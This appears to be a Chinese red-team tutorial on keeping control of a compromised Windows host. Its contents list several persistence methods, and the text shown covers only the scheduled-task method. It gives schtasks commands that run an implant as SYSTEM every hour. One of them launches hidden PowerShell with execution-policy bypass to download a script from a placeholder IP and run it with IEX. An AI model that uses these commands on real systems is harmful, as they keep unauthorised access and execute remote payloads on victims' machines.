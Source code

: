 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GCEPiILUNY_TFIrzd8QwMQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI4HYp8DyWfibI2LxfzKEibbYekd7pnnMLzN2QPJ9QVoXROLVoLyicXOMhQ/640)

Windows 权限维持

**目录**

定时任务

创建隐蔽账号

进程迁移

启动目录

注册服务自启 (报毒)

修改注册表实现自启动

在红蓝对抗实战中，当我们获取到一台 Windows 主机的权限后，首先要做的就是怎么维持住该权限。因为防守方的实力也在不断增强，并且他们的流量监测设备也在不断监控，如果发现机器被植入木马，他们肯定会采取措施。

比如采取以下几点措施：

查杀木马进程

重启主机

断网

关闭主机

而对于我们维持权限，可以有以下几点：

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640)

定时任务

使用 schtasks 命令创建定时任务

在目标主机上创建一个名为 test 的计划任务，启动程序为 C:\vps.exe，启动权限为 system，启动时间为每隔一小时启动一次。当执行完该命令，该计划任务就已经启动了

schtasks /create /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f

其他启动时间参数：

/sc onlogon  用户登录时启动

/sc onstart  系统启动时启动

/sc onidle   系统空闲时启动

但是如果是 powershell 命令的话，执行完下面的命令，还需要执行启动该计划任务的命令

schtasks /create /tn test /sc HOURLY /mo 1 /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c'IEX ((new-object net.webclient).downloadstring(''http://xx.xx.xx.xx'''))'" /ru system /f

查询该 test 计划任务

schtasks /query | findstr test

